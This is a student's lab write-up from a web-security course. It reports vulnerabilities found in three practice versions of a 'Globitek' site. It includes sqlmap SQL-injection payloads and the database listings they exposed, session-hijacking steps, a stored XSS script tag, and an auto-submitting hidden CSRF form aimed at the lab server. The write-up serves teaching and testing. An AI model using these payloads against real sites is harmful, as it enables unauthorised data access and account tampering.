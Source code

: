 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---
```

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

```
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

For instance, using sqlmap to probe globitek_blue tables, we find:

```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+
```

![Gif of 5](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/5.gif?raw=true)

Vulnerability #2: Session Hijacking / Fixation
Blue site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

GIF:




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment like
    ```
    <script>alert('XSS attack');</script>
    ```
    we can demonstrate the effect when the admin views it from their browser (seen below):

![Gif of 6](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/6.gif?raw=true)

Vulnerability #2: __________________


## Red

Vulnerability #1: Cross Site Request Forgery

    The red site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

![Gif of 8](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/8.gif?raw=true) 

Vulnerability #2: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


![Gif of 7](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/7.gif?raw=true)



## Notes

Describe any challenges encountered while doing the work
